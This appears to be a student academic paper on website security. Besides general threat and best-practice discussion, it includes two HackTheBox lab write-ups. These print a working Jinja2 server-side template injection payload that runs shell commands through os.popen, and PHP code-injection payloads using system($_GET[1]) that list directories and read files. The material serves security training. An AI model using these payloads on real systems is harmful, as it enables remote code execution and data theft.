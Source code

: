 # Website Security: Approaches and Challenges in Information System Protection

## Authors
- **Polychronis Varvaris**  
  International Hellenic University of Thessaloniki, Greece  
  Email: polihronisv@gmail.com
  
- **Konstantinos Georgiadis**  
  International Hellenic University of Thessaloniki, Greece  
  Email: kostas.georgiadisg@gmail.com
---

## 📝 Abstract

Website security is a critical factor in safeguarding information and users in the digital space. This academic article explores information systems security, focusing on website protection. Key challenges such as malware, DDoS attacks, and external breaches are discussed, along with approaches and techniques like cryptography, access control systems, and threat detection and response.

Additionally, best practices such as staff training, regular software updates, and monitoring vulnerabilities are presented. The article serves as a valuable source for IT professionals and researchers seeking to understand and apply effective website security practices.

---

## 🔑 Keywords
Website security, information protection, attacks and vulnerabilities, cryptography, access control systems, malware, threat detection, software updates, security best practices.

---

## 📌 Table of Contents
1. [Introduction](#1-introduction)  
2. [Major Security Issues in 2023](#2-major-security-issues-in-2023)  
3. [Social Implications](#3-social-implications)  
4. [Tools and Case Studies](#4-tools-and-case-studies)  
5. [Experiment A: Tamplated](#5-experiment-a-tamplated)  
6. [Experiment B: LoveTok](#6-experiment-b-lovetok)  
7. [Solutions](#7-solutions)  
8. [Future Work](#8-future-work)  
9. [Conclusion](#9-conclusion)

---

## 1. Introduction

As technology rapidly evolves, so do the challenges in securing information systems. IT security involves protecting data from unauthorized access, malicious use, loss, or destruction. It plays a foundational role in modern society, supporting businesses, governments, and individuals.

Failure to ensure adequate security can lead to privacy breaches, financial loss, or even national security threats. Users expect secure communication platforms, e-commerce sites, banking systems, and online services. Breaches can damage trust and have severe consequences for organizations.

---

## 2. Major Security Issues in 2023

Key problems in modern information system security include:

- **Malware**: Viruses, spyware, and ransomware that compromise data and privacy.
- **Software Vulnerabilities**: Weaknesses that can be exploited for unauthorized access.
- **Social Engineering**: Scams via emails or fake sites aimed at deceiving users.
- **Lack of Training**: Users unaware of basic cybersecurity principles pose risks.
- **Emerging Technologies**: IoT, AI, and autonomous systems introduce new threats.

---

## 3. Social Implications

Beyond technical issues, social aspects of website security matter too:

- **Personal Data Protection**: Users share private information on social platforms.
- **Abuse and Surveillance**: Harassment and unwanted monitoring are threats.
- **Anonymity & Transparency**: Platforms must offer privacy options and disclose data use.

---

## 4. Tools and Case Studies

We used [HackTheBox](https://www.hackthebox.com/), a platform for hands-on cybersecurity training. It provided vulnerable virtual machines to practice identifying and fixing vulnerabilities. The community also enabled sharing knowledge and interacting with others in the cybersecurity space.

---

## 5. Experiment A: *Tamplated*

**Objective**: Read the contents of the `flag` folder from `167.99.90.179:31306`.

### Process:
- Site runs on Flask + Jinja2 (Python-based).
- Using Wireshark, we found the server was `Werkzeug 1.0.1`.
- Jinja2 template injection is possible via the URL:

http://167.99.90.179:31306/{{7*7}} → displays "49"


### Exploit:
We injected a Jinja2 SSTI payload:

{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}

This displayed the contents of flag.txt via an error message.

6. Experiment B: LoveTok

Objective: Retrieve contents of the flag folder from 134.209.180.248:31901.
Process:

    The site allows refresh with URL changes like:

http://134.209.180.248:31901/?format=r

Exploitation tested by passing malformed parameters.
Example:

?format=${phpinfo()}

Command injection using:

?format=${system($_GET[1])}&1=ls+/

Final successful command to read flag:

    ?format=${system($_GET[1])}&1=cat+/flagrDOll

7. Solutions

To combat these challenges, organizations should:

    Implement strong security systems.

    Provide user training and awareness programs.

    Monitor for evolving threats and patch vulnerabilities.

    Establish clear security policies and access control.

8. Future Work

Some potential future directions based on this research:

    User Education: Investigate tools and training to improve security awareness.

    Security Tools: Develop new protective technologies for web applications.

    Policy Design: Explore effective governance models for information security.

    AI in Security: Leverage machine learning for threat detection and prevention.

9. Conclusion

This project highlights the importance of securing websites and information systems. We explored both technical and social aspects of cybersecurity, conducted hands-on experiments using real-world scenarios, and proposed practical measures to enhance security. Constant vigilance and adaptability are essential in the evolving landscape of cyber threats.
